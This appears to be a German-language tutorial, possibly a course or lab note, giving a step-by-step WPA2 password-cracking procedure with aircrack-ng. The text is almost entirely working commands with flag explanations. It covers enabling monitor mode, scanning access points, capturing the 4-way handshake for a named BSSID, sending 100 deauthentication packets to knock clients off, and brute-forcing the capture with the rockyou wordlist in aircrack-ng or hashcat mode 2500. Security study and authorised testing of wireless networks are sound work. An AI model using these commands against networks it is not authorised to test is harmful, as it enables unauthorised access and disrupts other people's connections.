 ## Installation
`$ sudo apt install aircrack-ng`
## Monitor-Modus
### **Testen** mit:
`$ iw list`
-> Supported interface modes: "monitor"
### Monitor-Modus aktivieren
`$ sudo airmon-ng start wlan0`
falls Prozesse laufen welche dies verhindern:
`$ sudo airmon-ng check kill`
Anschließend testen mit `$ iwconfig`

## Durchführung
### Informationsbeschaffung über Access-Point
`$ sudo airodump-ng wlan0mon`
- BSSID
- Channel
- ESSID
### Aufzeichnen des 4-Wege-Handshakes
`sudo airodump-ng wlan0mon --bssid A0:04:60:39:91:A5 --channel 2 -w capture`
- --bssid A0:04:60:39:91:A5
	Gibt die BSSID (Access Point MAC-Adresse) an.
- --channel 2
	Gibt den zu verwendenden Channel ein.
- -w capture
	Gibt an in welche Datei die aufgezeichneten Pakete gespeichert werden.
```
Wird kein Client mit Access Point verbunden (kein Handshake aufgezeichnet):
`$ sudo aireplay-ng --deauth 100 -a A0:04:60:39:91:A5 wlan0mon`
- --deauth 100:
	Sendet 100 Deauthentifizierungs-Pakete.
- -a A0:04:60:39:91:A5:
	Gibt die BSSID (Access Point MAC-Adresse) an.
- wlan0mon:
	interface
```
### Brute-Force-Angriff
`$ sudo aircrack-ng capture.cap -w /usr/share/wordlists/rockyou.txt`
- -w wordlist
#### Alternativ hashcat (GPU-Berechnung):
Umwandeln der aufgezeichneten Datei:
`$ aircrack-ng -J capture.cap capture.hccap`
Hashcat ausführen:
`$ hashcat.exe -m 2500 capture.hccapx rockyou.txt`
- -m 2500:
	Hash-Modus: WPA-EAPOL-PBKDF2

Quelle: https://sarwiki.informatik.hu-berlin.de/WPA2-Angriff